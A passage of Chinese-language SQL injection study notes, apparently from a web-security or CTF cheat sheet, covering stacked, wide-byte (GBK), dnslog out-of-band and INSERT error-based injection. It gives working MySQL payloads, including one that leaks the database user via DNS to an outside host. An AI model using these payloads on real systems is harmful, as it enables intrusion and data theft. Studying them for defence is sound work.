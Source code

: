 

### 4.4 二次注入





### 4.5 堆叠注入

例如，当注入类型为GET时，可能的payload如下：

```mysql
?id=1;show tables#
```

```mysql
id=1;show columns from 表名#
```



```mysql
';use information_schema;set @sql=concat('s','elect column_name from columns wher','e table_name="1919810931114514"');prepare stmt1 from @sql;execute stmt1;
```





### 4.6 宽字节注入

利用条件：

	1. 使用addslashes()函数 
	2. 数据库采用GBK编码 

当数据库采用GBK编码时，将两个字节视为一个汉字。

输入`%df'`，`addslashes()`会在`'`前添加转义符号`\`，从而变成`%df\'`，即URL编码中的`%df%5c%27`。而数据库采用GBK编码，会认为`%df%5c`是一个汉字`縗`的编码，最后的单引号`'`从而进行了逃逸。



### 4.7 dnslog注入



```mysql
select * from users where id = '1' and (select load_file(concat('\\',(select hex(user())),'xxx.dnslog.cn')))
```





### 4.8 insert/update/delete注入

+ 报错注入

```mysql
INSERT INTO users(`username`,`password`) 
VALUE('1' OR updatexml(1,concat(0x7e,(select database()),0x7e),1),'2')
```
